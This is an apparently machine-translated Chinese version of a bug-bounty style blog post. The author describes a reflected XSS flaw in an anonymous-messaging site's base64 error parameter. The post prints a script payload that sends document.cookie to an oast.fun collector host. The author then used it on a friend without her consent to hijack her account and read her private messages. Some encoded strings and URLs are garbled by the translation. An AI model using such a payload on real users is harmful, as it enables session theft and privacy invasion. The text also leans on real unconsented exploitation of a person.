







# 通过 XSS 阅读我的暗恋信息

> 原文：<https://infosecwriteups.com/reading-my-crush-messages-through-xss-f662661119c2?source=collection_archive---------0----------------------->

向所有读者问好，

这是一个迟来的帖子，因为这件事发生在去年我还在上大学的时候。

所以去年在一级防范禁闭中，有一种匿名消息传递的趋势，人们过去常常分享链接，他们的朋友可以匿名向他们发送任何他们想要的消息。

这与萨拉哈的文章非常相似，如果有人读过那篇文章，就会发现这非常相似。

所以，我的一个大学朋友在他们的 whatsapp 上分享了一个链接。链接指向的网址是**quiz 恶作剧. xyz**

她分享的链接允许其他人发送他们想要的任何信息。

我打开链接看了一下，发现了有趣的文件和参数。

在检查一个有趣的链接时，我发现

【https://quizprank.xyz/error.php? error = ww 91 ihdlcmugbg 9 NZ 2 vkig 91 DCE =

因此，错误参数使用 base64 编码的文本，并直接反映在页面上。

我使用了一个简单的 XSS 有效载荷，并用 base64 编码。

> 有效载荷— "> 
> 
> Base 64 编码-ij 48 C2 nya XB 0 pmfszxj 0 kdepozwvc 2 nya XB 0 pg = =

这导致执行 javascript 有效负载，并观察到弹出窗口。

嗯，许多 Infosec 的人仅仅停留在弹出一个 XSS 漏洞的警报，但在 bug 搜索中，我见过许多这样的情况，如果你向他们展示一种导致账户被接管的方法，程序会付给你更多的钱。

那么让我们来看看剥削。

在这种情况下，我用了一个简单的方法来偷饼干。我修改了我的有效负载，请求一个到我的服务器的链接，并在同一个链接中发送 cookies。

*新有效载荷- <脚本>document . location = '*[*http://cdkhapj 2 vtc 0000 ng 0 w0 gg 3 aimcyyyyyb . oast . fun？c = '+btoa(document . cookie)*](http://cdkhapj2vtc0000ng0w0gg3aimcyyyyyb.oast.fun?c='+btoa(document.cookie))*；</脚本>*

这里，我使用了一个免费的服务 interact.sh 来接收和查看通过有效负载发出的请求。

我用 Base64 编码了有效载荷并发送给她-

她点击了链接，我收到了她的帐户的 cookies 以及用户代理和 IP。

现在，我唯一要做的就是使用这些饼干，我可以看到她收到的所有信息。

我用我在 Burp Suite Repeater 收到的那个修改了 cookies，我可以进入她的账户，看到她的所有信息。

这导致了她在那个网站上的账户被接管。

我告诉她这件事，因为她应该知道发生了什么事

嗯，她对此并没有生气，正面回答，很有兴趣想知道是怎么做到的。

Ps: 不要试图用这种方法来给人留下深刻印象，因为这看起来令人毛骨悚然，在现实生活中也行不通。

这是利用 XSS 漏洞的一个非常简单的方法，在上面这样的网站上很容易找到。

此外，该漏洞已于去年报告给管理员。

**结论**

不要点击和相信你收到的链接。

对 Infosec 的人来说:是的，cookie 中缺少了 **HttpOnly 标志**,导致它窃取了 cookie。

缺少允许有效负载在页面上反映的输入清理。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！